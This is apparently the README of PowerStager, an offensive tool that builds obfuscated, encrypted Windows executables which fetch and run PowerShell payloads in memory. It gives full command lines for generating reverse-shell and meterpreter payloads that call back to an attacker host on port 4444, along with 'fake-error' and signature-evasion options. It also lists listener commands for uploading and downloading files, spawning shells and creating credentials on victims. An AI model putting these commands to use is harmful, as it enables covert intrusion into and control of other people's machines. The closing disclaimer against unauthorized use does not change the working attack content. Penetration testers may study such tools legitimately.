 !!! I'm looking for a new maintainer for PowerStager !!!
========================================================
I currently lack the time and interest to continue this "project". PowerStager 
was initially developed just for proving a point to my previous employer, but 
it has since been used by others. If there is any interest out there to 
continue and take over maintaining PowerStager send me an email at 
chris@noxz.tech.

PowerStager: This script creates an executable stager that downloads a selected powershell payload.
===================================================================================================

Contact
-------
* Author: Chris Noxz
* Source: https://github.com/z0noxz/powerstager
* Email: chris@noxz.tech

Description
-----------
This script creates an executable stager that downloads a selected powershell payload, loads it into memory and executes it using obfuscated EC methods. The script will also encrypt the stager for dynamic signatures and some additional obfuscation.

This enables the actual payload to be executed indirectly without the victim downloading it, only by executing the stager. The attacker can then for example implement evasion techniques on the web server, hosting the payload, instead of in the stager itself.

Additional methods allows the payload to be embedded into the 'stager' and temporarily stored encrypted on disk for memory injection.

Not only are powershell powerful when managing Windows, it's also powerful when exploiting Windows. This script exploits multiple Windows features such as its inherit trust of powershell, interpretation of shorthand syntaxes, code evaluation and more...

Demo
----
[![powerstager demo](https://d1ckdm8qo2u5d0.cloudfront.net/ai/videos/15651711/thumb-160x.jpg?v2r1495997991)](https://vid.me/Tfzr "powerstager demo - Click to Watch!")

How to use
----------

Prerequisites:

	python3
	python3-setuptools
	i686-w64-mingw32-gcc
	x86_64-w64-mingw32-gcc
	i686-w64-mingw32-windres
	x86_64-w64-mingw32-windres
	
Prerequisites (python3 modules):

	os
	sys
	getopt
	glob
	socket
	fcntl
	errno
	string
	re
	random
	base64
	datetime
	time
	hashlib
	readline
	signal
	urllib
	names

Install it:

	git clone https://github.com/z0noxz/powerstager
	cd powerstager
	sudo ./setup.py install

Generate a reverse shell payload to upload:

	powerstager --target win64 \
	--reverse-shell \
	--lhost 13.37.13.37 \
	--lport 4444 \
	--generate \
	--output out.ps1
	
	powerstager --target win64 \
	--url <url pointing the the uploaded payload> \
	--output out.exe

Generate an embedded reverse shell payload, with obfuscation and fake-error:

	powerstager --target win64 \
	--reverse-shell \
	--lhost 13.37.13.37 \
	--lport 4444 \
	--obfuscation \
	--fake-error \
	--output out.exe

Generate a meterpreter payload to upload:

	powerstager --target win64 \
	--meterpreter \
	--lhost 13.37.13.37 \
	--lport 4444 \
	--generate \
	--output out.ps1
	
	powerstager --target win64 \
	--url <url pointing the the uploaded payload> \
	--output out.exe

Generate an embedded meterpreter payload, with obfuscation and fake-error:

	powerstager --target win64 \
	--meterpreter \
	--lhost 13.37.13.37 \
	--lport 4444 \
	--obfuscation \
	--fake-error \
	--output out.exe

Generate an embedded custom payload:

	powerstager --target win64 \
	--path input.ps1
	--output out.exe

Open a reverse shell listener:

	powerstager --listener \
	--lport 4444

Reverse shell listener commands:
* Local-Invoke

  *Invokes powershell script files from host*

* Local-Import-Module

  *Imports powershell modules from host*

* Local-Set-Width

  *Changes the buffer width on remote client*

* Local-Upload

  *Uploads files from host*

* Local-Download

  *Downloads files from client*

* Local-Download-Commands

  *Downloads available powershell commands from client*

* Local-Enumerate-System

  *Runs enumeration scripts on client*

* Local-Check-Status

  *Collects user and privilage status from client*

* Local-Spawn-Meterpreter

  *Spawns meterpreter shells on client*

* Local-Spawn-Reverse-Shell

  *Spawns reverse shells on client*

* Local-Credential-Create

  *Creates credentials on client*

* Local-Credential-List

  *Lists created credentials on client*


## DISCLAIMER:
You shall not misuse this tool to gain unauthorized access. This tool should only be used to expand knowledge, and not for causing malicious or damaging attacks. Performing any attacks without written permission from the owner of the system is illegal.
